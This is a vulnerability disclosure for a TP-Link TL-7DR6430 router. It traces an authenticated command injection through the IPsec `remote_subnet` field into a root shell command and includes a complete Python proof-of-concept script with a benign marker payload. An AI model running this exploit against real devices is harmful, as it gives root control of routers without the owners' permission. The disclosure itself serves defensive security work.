



Submittion Date: 2026.6.24 
Vendor: TP-Link TL-7DR6430 
Version: V1.0_1.0.17 
Firmware: TL_7DR6430_V1.0_1.0.17_Build_20250919_Rel.56588.bin 
Download Link: https://resource.tp-link.com.cn/m/productClass/product_document?id=1759992600856491   


An authenticated command injection vulnerability exists in the VPN IPsec configuration workflow of the affected product. The `POST /stok={stok}/ds` endpoint accepts an IPsec connection entry whose `remote_subnet` field is copied verbatim into an internal model buffer without IP/CIDR validation or shell escaping. The authenticated internal command `vpn --ipsec_succee <idx>` later reaches the VPN route handler, where `remote_subnet` is formatted directly into a shell command similar to `ip route add %s dev xfrmi_%d table %d &` and executed via `systemAsyncExec`. Because the value is not sanitized or quoted, an authenticated attacker can inject shell metacharacters and execute arbitrary commands with `root` privileges.

The IPsec configuration flow accepts a `remote_subnet` string from an authenticated request and passes it through the model layer into the VPN route handler.

The reported vulnerable flow is:

```text
[1] SOURCE — authenticated HTTP request
    POST /                     login(md5(password:nonce))  -> stok
    POST /stok={stok}/ds       {"method":"add","vpn":{"table":"ipsec_connection",
                                 "para":{ ..., "remote_subnet":"<payload>", ... }}}
        |
        v
[2] vpnIpsecConnectionJsonToBin            (dms  @0x81dbcc)
    src_3 = jsonObjectGetString_0(json, "remote_subnet")     @0x81ddc4   // no IP/CIDR validation
    safe_strncpy_0(cfg + 178, src_3, 19)                     @0x81dddc   // copied verbatim; 19-byte field; no escaping
        |   cfg struct persisted to /vpn/ipsec_connection (modelWrite)
        v
[3] TRIGGER — authenticated HTTP request
    POST /stok={stok}/ds       {"method":"do","system":{"command":{"cmd":"vpn --ipsec_succee <idx>"}}}
        |
        v
[4] vpnAddIpsecPolicyRoute(idx)            (dms  @0x81ec4c)
    modelRead_0("/vpn/ipsec_connection/ipsec_connection_<idx>", &cfg, 500)   // reads remote_subnet back from offset 178
        |
        v
[5] SINK — format + execute
    snprintf(cmd, 0x200, "ip route add %s dev xfrmi_%d table %d &",
             cfg.remote_subnet, idx, 20)                     @0x81ee4c   // %s = attacker-controlled, unquoted
    systemAsyncExec_0(cmd)                                   @0x81ee04   // /bin/sh -c  "...;echo C>/tmp/c16 #..."
        |
        v
    injected command runs with root privileges (dms runs as root)
```

**[2] SOURCE — `vpnIpsecConnectionJsonToBin` (@0x81dbcc)** reads `remote_subnet` from the JSON object and copies it verbatim into the config struct at offset +178 via `safe_strncpy_0(..., 19)`, with **no IP/CIDR validation and no shell-character filtering**. The 19-byte field width is also why the payload length is constrained (`;echo C>/tmp/c16 #` = 18 bytes fits, 0x81ddc4 → 0x81dddc):



**[5] FORMAT — `vpnAddIpsecPolicyRoute` (@0x81ec4c)** reads the stored value back via `modelRead_0` and formats it directly into a shell command string through bare `%s`, with **no quoting or escaping** (@0x81ee4c):



**[5] SINK — `systemAsyncExec_0`** (@0x81ee04) receives the constructed command and invokes `/bin/sh -c`, where the injected payload is expanded and executed as root:

xxxxxxxxxx rm -f /tmp/psh

Exploit the vulnerability by sending carefully constructed HTTP requests
```python
import hashlib
import json
import time

import requests


BASE = "http://192.168.1.1"
PASSWORD = "CHANGE_ME"

IPSEC_NAME = "ipsec_connection_2"
IPSEC_INDEX = 2

PAYLOAD = ";echo C>/tmp/c16 #"

def post(session, path, data):
    url = BASE + path
    headers = {
        "Host": "192.168.1.1",
        "User-Agent": "Mozilla/5.0",
        "Accept": "application/json, text/javascript, */*; q=0.01",
        "Content-Type": "application/json; charset=UTF-8",
        "X-Requested-With": "XMLHttpRequest",
        "Origin": BASE,
        "Referer": BASE + "/",
    }
    response = session.post(url, headers=headers, json=data, timeout=10)
    print(response.text)
    return response.json()

def login(session):
    info = post(
        session,
        "/",
        {"method": "do", "user_management": {"get_encrypt_info": None}},
    )
    nonce = info.get("data", {}).get("nonce") or info.get("nonce")
    password_hash = hashlib.md5(f"{PASSWORD}:{nonce}".encode()).hexdigest()
    result = post(
        session,
        "/",
        {"method": "do", "login": {"password": password_hash, "encrypt_type": "3"}},
    )
    stok = result.get("stok") or result.get("data", {}).get("stok")
    if not stok:
        raise RuntimeError("login failed")
    return stok


def add_ipsec_connection(session, stok):
    data = {
        "method": "add",
        "vpn": {
            "table": "ipsec_connection",
            "name": IPSEC_NAME,
            "para": {
                "name": "cmd16_poc",
                "enable": "off",
                "bindif": "WAN1",
                "remote_peer": "1.1.1.1",
                "local_subnet": "192.168.0.0/24",
                "remote_subnet": PAYLOAD,
                "psk": "cmd16poc123",
                "exchange_mode": "main",
                "connection_type": "initiator",
                "local_id_type": "IP_ADDRESS",
                "remote_id_type": "IP_ADDRESS",
                "ike_proposal_1": "3des-md5-modp1024",
                "ph2_proposal_1": "esp-3des-md5",
                "ike_protocol": "ikev1",
                "pfs": "modp1024",
                "dpd_enable": "off",
                "dpd_interval": "0",
                "ike_lifetime": "28800",
                "sa_lifetime": "28800",
            },
        },
    }
    return post(session, f"/stok={stok}/ds", data)


def trigger_vpn_success(session, stok):
    data = {
        "method": "do",
        "system": {
            "command": {
                "cmd": f"vpn --ipsec_succee {IPSEC_INDEX}",
            }
        },
    }
    return post(session, f"/stok={stok}/ds", data)


def main():
    if len(PAYLOAD) > 19:
        raise RuntimeError("payload is too long for remote_subnet")

    session = requests.Session()
    stok = login(session)
    add_ipsec_connection(session, stok)
    trigger_vpn_success(session, stok)
    time.sleep(1)

    print("Check the router shell:")
    print("cat /tmp/c16")
    print("rm -f /tmp/c16")


if __name__ == "__main__":
    main()
```
The exploitation is shown below.

